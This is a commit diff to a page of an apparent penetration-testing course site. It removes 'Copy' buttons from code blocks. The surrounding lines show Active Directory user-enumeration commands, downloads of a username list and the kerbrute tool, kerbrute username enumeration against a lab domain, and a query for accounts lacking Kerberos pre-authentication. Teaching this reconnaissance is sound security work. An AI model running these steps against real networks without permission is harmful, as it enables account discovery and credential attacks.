

Before and after one commit to overgrowncarrot1/maraudersec-classes, a plain HTML site: page modules/findingusers.html in a window 1280 px wide. Shown: the part 946-1700 px from the top of the page, without its empty margins (237-1280 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update findingusers.html

```diff
--- a/modules/findingusers.html
+++ b/modules/findingusers.html
@@ -27,7 +27,7 @@
                 <pre>
 net user /domain
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -93,7 +93,7 @@ foreach ($user in $users) {
 }
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -117,7 +117,7 @@ foreach ($user in $users) {
 dsquery user -limit 0 | dsget user -dn | ForEach-Object { ($_ -split ',')[0] -replace 'CN=', '' }
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -139,7 +139,7 @@ dsquery user -limit 0 | dsget user -dn | ForEach-Object { ($_ -split ',')[0] -re
 Get-ADUser -Filter * -Properties SamAccountName | Select-Object SamAccountName
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -175,7 +175,7 @@ foreach ($user in $users) {
     Write-Host "-----------------------------------"
 }
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -203,7 +203,7 @@ cd C:\temp
 wget https://raw.githubusercontent.com/overgrowncarrot1/maraudersec-classes/refs/heads/main/tools/usernames.txt -o usernames.txt
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
 
@@ -223,7 +223,7 @@ wget https://raw.githubusercontent.com/overgrowncarrot1/maraudersec-classes/refs
 wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe -o kerbrute.exe
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
 
@@ -244,7 +244,7 @@ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_window
 .\kerbrute.exe userenum .\usernames.txt -d maraudersec.local
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
          <div class="image-container">
@@ -330,7 +330,7 @@ $usernameListPath = Read-Host "Enter the path to the username list file"
 Invoke-UserEnum -domain $domain -usernameListPath $usernameListPath
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
 
@@ -415,7 +415,7 @@ Invoke-UserEnum -domain $domain -usernameListPath $usernameListPath
 Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth | Select-Object Name, SamAccountName
 
                 </pre>
-                <button class="copy-btn" onclick="copyToClipboard()">Copy</button>
+
             </div>
         </div>
         <div class="image-container">
```
